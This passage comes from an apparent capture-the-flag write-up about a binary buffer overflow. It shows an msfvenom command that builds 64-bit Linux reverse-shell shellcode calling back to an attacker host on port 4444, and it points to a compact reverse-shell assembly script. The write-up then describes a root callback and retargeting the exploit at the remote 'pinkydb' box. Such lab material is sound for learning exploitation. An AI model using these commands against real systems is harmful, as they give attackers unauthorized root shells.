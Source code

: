     msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.213.130 LPORT=4444 -f py -b 00 -o revshell.shellcode

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553293954964_image.png)


we have exactly 120 bytes of space to use and our shellcode we generated is 119 bytes.

adding + modifying exploit.py

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553294415408_image.png)


Re-exploiting our binary by closing restarting process and sending our new exploit.

----------

additional: if you require super small shellcode within 77 and 84bytes that can be achieved with zerosum0x0 script.

https://zerosum0x0.blogspot.com/2014/12/x64-linux-reverse-tcp-connect-shellcode.html


script located at github: https://github.com/zerosum0x0/SLAE64/blob/master/reverseshell/reverseshell.asm

download github repository
usage:
edit the reverseshell.asm and localip hex address in little endian format

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553296249814_image.png)


navigate to reverseshell - `cd reverseshell`


    python ../shellbuild.py -x 64 reverseshell/reverseshell.asm

output

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553296527897_image.png)


and now we have 75 bytes of working shellcode!

# Root&Loot

Re-run gdb panel + execute our newly modified exploit.py with an active listener on 4444.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553294522557_image.png)


a callback is made as `root`

Final Stretch - attacking our binary on the remote box
change the “ip” on our script to “pinkydb”

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553295245808_image.png)
